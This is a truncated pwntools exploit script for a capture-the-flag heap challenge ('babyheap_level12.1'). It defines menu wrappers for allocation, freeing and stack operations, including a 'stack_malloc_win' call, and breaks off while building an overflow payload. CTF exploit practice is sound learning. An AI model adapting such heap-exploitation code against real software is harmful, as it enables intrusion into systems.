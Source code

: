 ```python
FILE = "/challenge/babyheap_level12.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def stack_malloc_win():
    target.sendlineafter(b": ", b"stack_malloc_win")


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0x20)

    payload = flat(
        b"A" * 0x30,
        0,
```